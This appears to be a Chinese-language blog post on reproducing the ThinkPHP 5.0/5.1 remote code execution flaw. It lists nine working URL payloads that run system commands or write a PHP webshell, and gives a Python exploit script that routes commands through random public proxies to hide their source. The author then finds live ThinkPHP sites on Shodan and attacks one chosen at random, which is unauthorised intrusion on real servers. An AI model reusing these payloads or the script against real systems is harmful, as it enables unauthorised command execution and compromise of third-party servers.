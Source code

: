 ```yaml
---
title: Thinkphp-getshell复现
tags: 渗透测试
---
```

# thinkphp5任意命令执行漏洞复现
## 一、漏洞详情
由于框架对控制器名没有进行足够的检测，会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

![图标](https://static.dingtalk.com/media/lALPDgQ9rM46LpvNAfTNA4Q_900_500.png)
<!--more-->
参考链接：https://blog.thinkphp.cn/869075
## 二、测试payload
其实我一直等一个大佬分析漏洞原理，但是没有看到圈子里有人发表相关文章，只好自己来告诉大家这个漏洞的消息。但是由于本人实在是技术小白，所以写不出来漏洞原理，只能发一波payload了
```
1、index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
2、index.php?s=index/\think\Request/input&filter=phpinfo&data=1
3、index.php?s=index/\think\Request/input&filter=system&data=id
4、index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
5、index.php?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
6、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
7、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
8、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
9、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
## 三、复现
- 有了payload，剩下的就是搭建复现环境了。这里给大家说一下我的习惯：直接用docker pull，有的表哥可能喜欢自己搭一遍，这样能够学到更多的东西，但是我为了图方便，一般都是直接用docker实现了
- 安装docker应该大家都会，如果有人不是很了解docker的话，我这里讲一个非常简单的方法：在centos7里先yum -y updat确保自己的最新的，然后重启，执行yum -y install docker*，这样很简单的就把docker装上了
- 然后：
```
docker pull docker.io/clarencep/tp5-dev
docker run -d --name thinkphp5 -p 8000:8000 docker.io/clarencep/tp5-dev
```
- 然后就可以访问http://ip:8000来看一下是否成功  
![测试环境](https://images-cdn.shimo.im/anrkeZR5YHosWG5t__thumbnail)  
- 确认成功跑起来之后选一个payload来访问就可以了  
![测试payload](https://images-cdn.shimo.im/WD0eNDELsyscHQN2__thumbnail)  
## 四、愉快玩耍
- 有了payload，就可以写一个简单的脚本来玩了
```
#coding=utf-8
import requests,sys,random
proxy_list=[
    '223.203.0.14:8000',
    '183.166.129.53:8080',
    '103.205.26.84:41805',
    '61.135.155.82:443',
    '218.17.139.5:808'
]
def poc(site,command):
    url=site+'/index.php?s=Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]='+command
    headers={'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0'}
    proxies={
        'http':'http://'+random.choice(proxy_list),
        'https':'https://'+random.choice(proxy_list)
        }
    req=requests.get(url,headers=headers,proxies=proxies)
    print(req.text)
    print('-----------------------------------------')
try:
    site=sys.argv[1]
    command=sys.argv[2]
except:
    site=raw_input('Please input your site:')
    print('-----------------------------------------')
    while True:
        command=raw_input('Command:')
        poc(site,command)
poc(site,command)
```
- 我在脚本里写了几个随便在网上找的代理IP，大家也可以写自己的  
- 去shodan上看一眼：
![shodan](https://images-cdn.shimo.im/rHUy523VPVYwhuOt__thumbnail)  
- 哇，好多thinkphp5的网站，随便挑一个    
![上手](https://images-cdn.shimo.im/nncjpXyHhSYvKVTY__thumbnail)  
- 我早上看的时候还好好地，现在已经被人传进去这么多马了，还有asp的，真的娘的是个人才